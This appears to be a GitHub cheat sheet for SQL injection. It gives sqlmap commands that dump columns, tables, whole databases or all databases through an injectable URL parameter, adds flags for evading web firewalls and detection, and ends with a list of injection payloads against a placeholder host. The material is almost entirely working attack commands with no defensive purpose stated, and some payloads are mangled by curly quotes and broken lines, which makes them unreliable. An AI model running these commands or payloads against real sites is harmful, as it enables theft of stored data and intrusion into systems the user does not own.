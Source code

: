 						
<h2>SQLmap Usage</h2>


 **To Fetch Only Column's Data**                        
 ```
  sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump
```
 **To Fetch Only All Column & Its Data**          
 ```
sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump
```

 **To Fetch Entire Database's Data** 		     
 ```
sqlmap - u "url?prm=" -p prm -D dbname  --dump
```

 **To Fetch All Databases**
 ```
 sqlmap - u "url?prm=" -p prm --dbs  --dump
``` 
 *or use --dump-all instead of --dump to fetch all databases's all tables and columns*


<h4>Extra Parameter to Optimise SQLmap's Performance</h4>

 * **Parameters**      `--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o `
 
* **Optimised Url**

```
sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o
```


<h2> SQL Injection Confirmation<h2>
 
 ```
 http://hack.com/’

 http://hack.com/"

 or 1=1 

 ‘or 1=1

 “or 1=1

  or 1=1–

 ‘or 1=1–

 “or 1=1–

  or 1=1#

 ‘or 1=1#

 “or

  1=1#

  or 1=1/*

 ‘or 1=1/*

 “or 1=1/*

  or 1=1;%00

 ‘or 1=1;%00

 “or 1=1;%00

 ‘or’

 ‘or

 ‘or’–

 ‘or–

  or a=a

 ‘or a=a

 “or a=a

  or a=a–

 ‘or a=a —

 “or a=a–

  or ‘a’=’a’

 ‘or ‘a’=’a’

 “or ‘a’=’a’

 ‘)or(‘a’=’a’

 “)”a”=”a”

 ‘)’a’=’a

 ‘or”=’
```
